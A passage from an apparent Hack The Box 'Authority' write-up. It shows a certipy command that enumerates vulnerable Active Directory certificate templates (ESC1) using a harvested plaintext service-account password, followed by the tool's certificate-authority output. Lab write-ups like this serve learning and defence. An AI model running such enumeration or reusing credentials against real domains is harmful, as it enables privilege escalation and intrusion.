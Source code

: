 ![image.png](/assets/images/Authority_HTB/image%2019.png)

We can see that the domain users can enroll 

So using the Oliver Lyak’s certipy from github to find the vulnerable templates svc_ldap has access to.

### ESC1

```bash
certipy find -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -vulnerable -text -enabled
```

![image.png](/assets/images/Authority_HTB/image%2020.png)

We can see that it gathered some templates and the certificate authority.

Looking at the results.

```text
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
```